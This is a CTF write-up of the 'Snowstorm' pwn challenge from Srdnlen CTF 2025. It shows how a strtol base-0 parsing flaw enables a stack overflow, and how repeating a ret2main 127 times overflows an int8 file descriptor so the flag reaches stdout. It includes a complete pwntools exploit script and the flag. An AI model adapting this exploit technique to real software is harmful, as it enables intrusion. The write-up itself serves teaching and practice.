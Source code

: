 # Snowstorm

**CTF:** Srdnlen CTF 2025 Quals\
**Category:** pwn\
**Difficulty:** Medium\
**Author:** @church (Matteo Chiesa)

## Description

> Being an air traffic controller may not be your dream job. There are so many protocols with radio communications, radar, etc. And in case of an emergency, some parts of the message might be missing.

## Overview

This challenge is a classic ELF binary, and the idea behind it is simple: create a challenge that prints out the flag, but on `/dev/null`. Contrary to what you might think, the goal of this challenge is not to recover the flag from the black-hole file, but to test your lateral thinking when you have little room to maneuver.

## Solution

### Binary Analysis

We are dealing with a file that has _NX_ and _Partial RELRO_, but **hasn't _Stack Canaries_ and _PIE_**.\
Using a common decompiler, we can notice that, together with the initial radio message, the binary writes the flag in the `/dev/null` file. Sadly we can't recover something that is written in that special file.

The part that attracts the most attention is the `ask_length` function: after it takes the value of the length of the message, it includes many checks that involve the string with the number we give it. These seem very sketchy but are actually quite effective at limiting the digits we can send to `40`. Seems they let through numbers with the `-` sign, but there is a check for negative numbers later in the code.\
Moving forward, that string is passed to the `strtol` function with **0 as base**. There is the first vulnerability because that base tells `strtol` to recognize automatically the base from the string; more specifically, if there is a `0x` at the beginning, it will be read as base 16, else if there is just a `0` at the beginning, it will be read as base 8.\
But the digits limitations remain; therefore, **we can send `0x40` to bump up the maximum length of the message to 64, causing a stack overflow in the `main` function**.

But with that length we can't do much: we can afford to **override just one address** in the place of the return address. Basically a _ret2win_ scenario.\
But in this case, where should we jump? There isn't a win function, and we can't use a _one-gadget_ without a _libc_ leak, and a partial override isn't available. You can think of jumping directly to `sendfile` in the `print_flag` function, but the flag file has already been read.

Meanwhile, you may have noticed another oddity of this binary: right in the `print_flag` function, the variable for **the file descriptor of `/dev/null` is of _int8_ type**; just space optimization, or something else?

### The breakthrough idea

There's another technique we can afford with just one address of a ROP chain: the **_ret2main_**. But that is used only in a multi-stages exploit, to use the same vulnerability more times, like for a leak and then for the actual exploit. Here we can use it, but we're going to return to the same situation as before, it isn't provide any advancement.

Or is it?\
By doing the _ret2main_, we have overridden also the part of the stack with the two file descriptors. So when the program tries to close them, it fails, and the original file descriptors remain open. Then it executes the _ret2main_, and **opens again the same files, but with other file descriptors**.
The file descriptors of a process in Linux increase by one for each file opened by that process. And if we open enough files, we can have easily large numbers as file descriptors.

The file descriptor of _int8_ type is the key for this challenge. That is the file descriptor of where the flag is written, so if that integer is 1 or 2, the flag will be printed out on the screen, through the `stdout` or the `stderr` stream. And since that file descriptor increases by 2 at each execution of the `main` function (because it also opens `flag.txt`), **we can overflow the variable in the `print_flag` function by doing a _ret2main_ 127 times!!**. Can it be considered a challenge of 127 stages?

### Exploiting

From now on, the exploitation is business as usual. Let's chain together what we have described here:
1) we pass `0x40` as length, to send a message of 64 bytes and overflow the stack;
2) we create a ROP chain, filling the 40 bytes of the message, overriding the file descriptors and the previous base pointer with garbage, and doing a _ret2main_;
3) Repeat the first 2 steps 127 times to overflow the _int8_ variable in `print_flag` function and get the flag!

**srdnlen{39.22N_9.12E_4nd_I'll_C0n71Nu3_70_7R4n5M1t_7h15_M355463}**

Side note: The plot of this challenge is not casual. What does a pilot who doesn't know whether his emergency message has been received do, except repeat the message?

```py
import os
import pwn

def main():
    exe_path: str = f"{os.path.dirname(__file__)}/snowstorm"
    hostname: str = "localhost"
    port: int | str = "1089"
    ssl: bool = False
    gdbscript = "\n".join((
        "c",
    ))

    exe = pwn.ELF(exe_path)
    pwn.context.binary = exe
    io = connect(hostname, port, ssl, (exe.path, ), gdbscript, default_mode="local")

    # Create ROP
    rop = pwn.ROP(exe)
    rop.raw(b"a"*(40+4+4+8))    # filling until the return address
    rop.call("main")            # ret2main
    payload = rop.chain()

    for _ in range(127):
        io.sendafter(b": ", b"0x40")    # Give hexadecimal number to strtol
        io.sendafter(b"> ", payload)    # ROP

    io.recvuntil(b"\"\n")
    flag = io.recvuntil(b"}")   # Get flag
    print(flag)                 # srdnlen{39.22N_9.12E_4nd_I'll_C0n71Nu3_70_7R4n5M1t_7h15_M355463}


from typing import Literal
def connect(
        hostname: str = "", port: int | str = "", ssl: bool = False,
        argv: tuple | str = (), gdbscript: str = "",
        default_mode: Literal["remote", "local", "gdb"] = "remote"
    ) -> pwn.tube:

    if pwn.args.REMOTE:
        mode = "remote"
    elif pwn.args.GDB:
        mode = "gdb"
    elif pwn.args.LOCAL:
        mode = "local"
    else:
        mode = default_mode
        
    match mode:
        case "remote":
            assert hostname and port, "Unprovided arguments for remote execution"
            return pwn.remote(hostname, port, ssl=ssl)
        
        case "local":
            assert argv, "Unprovided arguments for local execution"
            if isinstance(argv, str):
                exe_cwd = os.path.dirname(argv)
            else:
                exe_cwd = os.path.dirname(argv[0])
            return pwn.process(argv, cwd=exe_cwd)
        
        case "gdb":
            assert argv, "Unprovided arguments for debug execution"
            return pwn.gdb.debug(argv, gdbscript)
        
        case _: raise ValueError("Unknown mode")

if __name__ == "__main__":
    main()
```
